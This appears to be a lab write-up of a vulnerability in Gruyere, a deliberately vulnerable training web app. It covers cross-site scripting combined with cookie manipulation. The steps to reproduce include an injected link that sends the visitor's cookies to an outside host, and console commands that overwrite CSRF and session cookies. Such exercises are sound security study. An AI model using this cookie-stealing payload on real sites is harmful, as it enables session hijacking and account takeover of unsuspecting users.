 ## Vulnerability 11: Cookie Manipulation for Privilege Escalation via XSS

## What is the vulnerability: 
The vulnerability is a combination of Cross-Site Scripting (XSS) and cookie manipulation, allowing an attacker to inject malicious scripts into the web application. These scripts can steal sensitive cookies and potentially escalate privileges by impersonating users.

## Explanation:
The Gruyere application allows users to add HTML snippets that include JavaScript. By injecting a malicious script, an attacker can redirect users to a malicious URL with their cookies attached, thereby stealing session tokens and other sensitive information. This vulnerability is exacerbated by the ability to inspect and manipulate cookies directly via JavaScript in the console.

## Consequences:
Cookie Theft: Attackers can steal cookies, including session tokens, allowing them to hijack user sessions.
Privilege Escalation: With stolen session tokens, attackers can gain unauthorized access to user accounts and perform actions with elevated privileges.
Data Exposure: Sensitive user information can be exposed if cookies contain personal or authentication data.

## Steps to reproduce:
Inject Malicious Script:

Go to the "New Snippet" section of the Gruyere application.
Inject the following script into the snippet input form:

<a href="javascript:window.location='https://drac/gruyere?data='+document.cookie">hewuzhere</a>

Submit the snippet.
Trigger Script Execution:

Visit the Gruyere home page where the snippet is displayed.
Click on the injected link (hewuzhere).

Inspect Cookies:

Open the browser’s developer tools (usually by pressing F12 or right-clicking and selecting "Inspect").
Go to the "Console" tab.
Execute the following command to view and manipulate cookies:
Document.cookie

Note the _csrf, CSRF-TOKEN, and other cookies.
Simulate Cookie Manipulation:

In the console, manipulate the cookies to simulate privilege escalation:
document.cookie='_csrf=m551NO-VIlknbF5bV5DVrueq; 
CSRF-TOKEN=jtult7Ra-GvpIKXzsInhECqbSaQsb-570v0; GRUYERE=';
